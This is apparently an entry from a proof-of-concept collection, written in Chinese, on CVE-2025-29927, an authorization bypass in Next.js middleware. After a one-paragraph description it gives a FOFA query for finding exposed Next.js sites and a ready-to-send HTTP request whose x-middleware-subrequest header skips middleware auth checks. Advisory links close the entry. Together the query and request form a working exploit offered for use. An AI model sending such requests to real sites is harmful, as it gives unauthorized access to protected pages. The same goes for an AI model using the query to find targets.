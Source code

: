 # Next.js中间件权限绕过漏洞（CVE-2025-29927）

Next.js 是一个用于构建全栈 Web 应用程序的 React 框架。在受影响的版本中，如果 Next.js 应用程序正在基于路径名的中间件中执行授权，则可能会绕过应用程序根目录下的页面的此授权，允许未经授权访问Next.js应用程序中的根级页面，这些页面本应受到授权检查的保护

## fofa
```javascript
app="NEXT.JS"
```

## poc
```javascript
GET /protected-route HTTP/1.1 
Host: xxx.com
x-middleware-subrequest: true
```


## 参考链接

- https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw
- https://zeropath.com/blog/nextjs-middleware-cve-2025-29927-auth-bypass
- https://zhero-web-sec.github.io/images/next-middleware-1.png
